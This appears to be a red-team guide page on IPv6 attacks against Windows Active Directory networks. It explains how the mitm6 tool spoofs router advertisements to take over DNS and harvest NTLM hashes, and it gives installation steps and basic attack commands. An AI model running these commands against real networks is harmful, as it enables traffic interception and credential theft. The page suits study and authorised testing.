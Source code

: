 # IPv6 Attacks

## Overview
IPv6 attacks exploit the fact that many Windows environments have IPv6 enabled by default but lack proper IPv6 security configurations. These attacks can be particularly effective because IPv6 traffic is often less monitored than IPv4.

## mitm6 - IPv6 DNS Takeover

### What is mitm6?
- Python tool for exploiting IPv6 in Windows/Active Directory environments
- Leverages Windows' preference for IPv6 over IPv4
- Performs DNS takeover via IPv6 Router Advertisements
- Created by Fox-IT for red team operations

### How mitm6 Works
1. **Router Advertisement Spoofing**: Sends fake IPv6 Router Advertisements
2. **DNS Server Assignment**: Sets attacker machine as primary DNS server for IPv6
3. **Traffic Interception**: Captures and redirects DNS queries
4. **WPAD Exploitation**: Exploits Web Proxy Auto-Discovery via IPv6
5. **Credential Harvesting**: Collects NTLM hashes through forced authentication

### Installation
```bash
# Install via pip
pip3 install mitm6

# Or clone from GitHub
git clone https://github.com/fox-it/mitm6.git
cd mitm6
pip3 install -r requirements.txt
python3 setup.py install
```

### Basic Usage

#### Simple DNS Takeover
```bash
# Basic attack against domain
mitm6 -d domain.local

# Specify network interface
mitm6 -d domain.local -i eth0

# Verbose output
mitm6 -d domain.local -v

# Specify custom DNS server to forward legitimate queries
mitm6 -d domain.local --dns-server 192.168.1.1
```
